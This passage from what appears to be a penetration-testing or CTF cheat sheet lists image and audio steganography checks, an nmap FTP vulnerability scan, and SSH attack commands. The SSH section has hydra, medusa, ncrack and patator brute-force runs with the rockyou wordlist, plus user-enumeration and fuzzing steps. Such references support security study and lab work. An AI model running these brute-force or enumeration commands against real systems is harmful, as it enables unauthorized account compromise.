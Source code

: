 ```sh
# Check png corrupted
pngcheck -v image.jpeg
```

```sh
# Check what kind of image is
identify -verbose image.jpeg
```

### Audio
```sh
# Check spectrogram
wget https://code.soundsoftware.ac.uk/attachments/download/2561/sonic-visualiser_4.0_amd64.deb
dpkg -i sonic-visualiser_4.0_amd64.deb
```
```sh
#AudioStego
hideme stego.mp3 -f && cat output.txt 
```

## Port 21 - FTP
```
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $IP
```

## Port 22 - SSH

```sh
# BruteForce:

patator ssh_login host=$IP port=22 user=root 0=your_file.txt password=FILE0 -x ignore:mesg='Authentication failed.'
```
```sh
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
```
```sh
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
```
```sh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111
```

```sh
#Msf
use auxiliary/fuzzers/ssh/ssh_version_2
```
```sh
#SSH Enum users < 7.7:

python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt $IP 2>/dev/null | grep "is a"
```
